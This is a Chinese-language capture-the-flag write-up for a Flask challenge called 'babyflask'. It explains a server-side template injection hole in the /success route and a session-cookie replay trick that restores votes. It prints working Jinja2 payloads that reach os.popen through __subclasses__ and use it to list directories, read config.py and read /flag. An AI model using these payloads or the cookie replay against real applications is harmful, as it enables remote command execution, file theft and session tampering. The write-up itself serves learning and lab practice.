


# babyflask
*http://123.60.19.253:10001*

---

分析给出的源文件,发现`/success`路由下的`name`存在SSTI漏洞.

继续分析,`name`取自`session['name']`,用户登录时会自动创新用户和删除前一个同名用户的登录信息,那其实我们用注入的代码的作为用户名直接登录即可.

```python
template =  '''
Congratulations, %s. You can get flag now!
''' % name
return render_template_string(template)
```

要想执行到上述代码,需要给flag投满8票(我们手里只有5票),注意到vote是存储在session中,`/vote`接口会校验`session`中保存的vote数量并减一,猜测这里可能存在session会话劫持.

我们第一次登录时复制一下当前的`session`,然后给flag投票,等手里的票用光之后,再把第一次登录时复制的`seesion`粘贴进浏览器保存的Cookie中,我们的票又回来了.

>🤠登录后疯狂点击“投票”,也能投满8票;可能因为Server响应太慢,浏览器中保存的session还没来得及被更新,导致多个请求发起时共用一个session(即vote数量相等),session中保存的vote最终只会减一.



使用如下代码作为用户名登录,查看一下当前已加载模块

```python
{{''.__class__.__bases__[0].__subclasses__()}}
```


人肉计数/写个脚本,找到`os._wrap_close`模块所在的索引,借助于`popen`函数可以直接执行系统命令

```python
num = 0
for i in a.split(', '):
    if 'os._wrap_close' in i:
        print(num)
    num += 1
```

先`ls -a`一下,发现`config.py`

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls -a').read()}}
```


继续`cat`,没有在`config.py`中找到flag

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat config.py').read()}}
```


用`ls -R /`找找,发现存在`/flag`文件

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls -R /').read()}}
```


直接`cat /flag`即可

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```


**flag:**`l3hsec{emmMmMM_mm~mMMmm~~T}`

